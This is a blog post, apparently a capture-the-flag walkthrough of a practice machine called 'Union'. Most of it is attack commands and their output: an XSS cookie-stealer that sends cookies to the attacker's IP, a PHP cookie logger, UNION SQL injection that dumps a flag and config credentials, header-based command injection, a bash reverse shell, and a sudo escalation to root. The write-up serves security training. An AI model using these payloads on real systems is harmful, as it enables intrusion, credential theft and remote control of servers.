 ```yaml
---
layout: post
title: "Union"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.96.75 --ulimit 5000

result:
80/tcp open  http    syn-ack

sudo nmap -sC -sV -p80 -oA nmap/union 10.129.126.21

result:
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The site has a player eligibility check field. It is vulnerable to xss

```bash
<script> alert(1) </script>
```

![image.png]({{ site.baseurl }}/assets/union/image.png)

Let’s enumerate subdirectories

```bash
gobuster dir -u http://10.129.96.75 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,php

result:
/css                  (Status: 301) [Size: 178] [--> http://10.129.96.75/css/]
/config.php           (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 1220]
/challenge.php        (Status: 200) [Size: 772]
/firewall.php         (Status: 200) [Size: 13]

#firewall.php access denied
```

Create js script to grab the cookie: js.script

```bash
new Image().src='http://10.10.14.118/index.php?c='+document.cookie

```

Create php server script: index.php

```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

```

Now run the server

```bash
sudo php -S 0.0.0.0:80
```

Now execute the XSS exploit

```bash
<script src=http://10.10.14.118/script.js></script>

```

It’s our own cookie..

Let’s also try SQL injections with sqlmap. First coy the POST request to file

![image.png]({{ site.baseurl }}/assets/union/image%201.png)

Now use sqlmap:

```bash
sqlmap -r player.req --batch
```

Did not work

Let’s do the same with the flag request page:

```bash
sqlmap -r flag.req --batch
```

sqlmap returns nothing

We had to have started with a valid name that is not eligible

```bash
ippsec
```

![image.png]({{ site.baseurl }}/assets/union/image%202.png)

Now we try to inject it with sql

![image.png]({{ site.baseurl }}/assets/union/image%203.png)

It is still return not eligible, but when we try a user who is eligible, we get

![image.png]({{ site.baseurl }}/assets/union/image%204.png)

Therefore we know that the site is vulnerable to sql injections. Let’s try union injection

```bash
ipps' union SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA-- - 
```

![image.png]({{ site.baseurl }}/assets/union/image%205.png)

The result mysql is the first row of the schemata table.

Let’s find out how many columns are the table returning:

```bash
ipps' UNION select 1,2-- -

This return congratulations again so we know the table only has 1 column
```

As it only returns one field, let’s concat all rows together

```bash
ipps' union select group_concat(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA-- - 

result:mysql,information_schema,performance_schema,sys,november
```

The only non-default table is november. Let’s enumerate further

```bash
ipps' union select group_concat(TABLE_NAME, ":", COLUMN_NAME, "\n") FROM INFORMATION_SCHEMA.columns where TABLE_SCHEMA like 'november'-- - 

result:
Sorry, flag:one
,players:player
```

There is a flag table with column name one, and players table with column name player

Let’s see the flag table first

```bash
ipps' union select group_concat(one, "\n") FROM november.flag-- - 

result:
UHC{F1rst_5tep_2_Qualify}
```

Let’s do the player

```bash
ipps' union select group_concat(player, "\n") FROM november.players-- -

result:
Sorry, ippsec
,celesian
,big0us
,luska
,tinyboy 
```

let’s input the flag into the site. Our IP address has now been granted ssh access.

We can continue on with our injection to find user credentials to access.

```bash
ipps' union select LOAD_FILE('/var/www/html/index.php')-- -

result:
we see file pointing to a config.php. Let's see what that is

ipps' union select LOAD_FILE('/var/www/html/config.php')-- -

result:
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

We get a username and password.

Now let’s try to ssh in. We are in.

```bash
cat user.txt

3f1ceafb864dd39736ecbfbb3f9d6c0b
```

Let’s investigate the web configuration files more as normally only the root user is allowed to set firewall rules to allow us to access another port.

Looking at the firewall.php file in /var/www/html, we can see there is a command injection flaw. This lets any thing put in variable $ip and gets executed.

```bash
 <?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>

 
```

Now let’s visit the firewall.php and capture the traffic so we can add the header and command inject

![image.png]({{ site.baseurl }}/assets/union/image%206.png)

As we can see, when we added the whoami, the server replied with www-data, another way is to use the command sleep 2; see if the server stops for 2 seconds before replying. Now we can try a reverse shell

```bash
host:
nc -lnvp 4040

On burp:
bash -c 'bash -i >&/dev/tcp/10.10.14.118/4040 0>&1';
```

![image.png]({{ site.baseurl }}/assets/union/image%207.png)

Now we have shell

Now we check sudo privileges

```bash
sudo -l                                                                                                                                   00:00:31 [12/62]
Matching Defaults entries for www-data on union:                                                                                                          
    env_reset, mail_badpass,                                                                                                                              
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                              
                                                                                                                                                          
User www-data may run the following commands on union:                                                                                                    
    (ALL : ALL) NOPASSWD: ALL   
```

We can execute anything…

```bash
sudo su root

```

- sql union injection
- leaked config files using LOAD_FILE
- command injection vulnerability using HTTP HEADERS
- sudo -l privileges